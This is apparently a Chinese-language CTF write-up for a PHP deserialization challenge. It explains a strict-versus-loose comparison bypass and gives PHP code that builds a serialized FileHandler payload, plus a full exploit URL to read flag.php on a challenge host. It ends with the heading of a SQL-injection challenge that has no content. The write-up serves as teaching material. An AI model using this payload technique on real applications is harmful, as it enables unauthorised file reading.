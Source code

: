 思路是令 op 的值为 2 并且指定 filename 为 flag.php 从而读取 flag 的内容

但是 __destruct 前有个判断, 会更改 op 的值并清空 content

然而里面的  `if($this->op === "2")` 用的是 `===`, 也就是强类型比较

process 里面的 `else if($this->op == "2")` 用的是 `==`, 弱类型比较

所以我们只需要把 op 设置成 int 类型的就能绕过了

payload 如下

```php
<?php

class FileHandler {

    public $op = 2;
    public $filename = 'flag.php';
    public $content = '';

}

echo urlencode(serialize(new FileHandler()));
?>
```

如果访问修饰符是 protected 和 private 的话, 生成的字符串有 `%00`, 会被 is_valid 检测到

不过服务器的 PHP 版本是 7.4.3, 对访问修饰符不敏感, 全都改成 public 即可

```
http://022ddad7-d409-497d-9954-a37f4c6962f3.node4.buuoj.cn:81/?str=O%3A11%3A%22FileHandler%22%3A3%3A%7Bs%3A2%3A%22op%22%3Bi%3A2%3Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A7%3A%22content%22%3Bs%3A0%3A%22%22%3B%7D
```

![](assets/202208241918523-1700744514804289.png)

## [GXYCTF2019]BabySQli（union联合查询蔡解列数，union联合查询构造临时数据，欺骗登录）

![](assets/202208241934726-1700744514804291.png)
